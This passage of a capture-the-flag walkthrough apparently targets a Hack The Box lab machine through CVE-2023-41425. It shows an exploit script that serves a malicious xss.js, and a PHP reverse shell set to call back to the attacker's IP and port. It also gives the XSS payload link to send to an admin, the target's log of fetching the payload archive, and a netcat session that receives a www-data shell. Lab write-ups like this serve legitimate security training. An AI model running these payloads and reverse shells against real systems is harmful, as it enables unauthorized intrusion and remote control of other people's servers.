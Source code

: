 ```

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```

Download the reverse shell used, then check the source code *rev.php*. Change the IP and the port according to our machine. After that, zip it back.

*rev.php*
```
...SNIP...
set_time_limit (0);
$VERSION = "1.0";   // CHANGE THIS
$ip = '10.10.16.2';  // CHANGE THIS
$port = 1337;
...SNIP...
```

Run the exploit script and submit the given XSS payload through the form.

![[Pasted image 20240902171620.png]]

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ python3 exploit.py http://sea.htb/loginURL 10.10.16.2 1337
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 1337
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.16.2:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [02/Sep/2024 17:54:39] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [02/Sep/2024 17:54:49] "GET /main_modified.zip HTTP/1.1" 200 -
10.10.11.28 - - [02/Sep/2024 17:54:51] "GET /main_modified.zip HTTP/1.1" 200 -
10.10.11.28 - - [02/Sep/2024 17:54:52] "GET /main_modified.zip HTTP/1.1" 200 -
10.10.11.28 - - [02/Sep/2024 17:54:53] "GET /main_modified.zip HTTP/1.1" 200 -
```

You will then get a shell.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.16.2] from sea.htb [10.10.11.28] 34154
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:56:11 up 10 min,  0 users,  load average: 0.63, 0.22, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
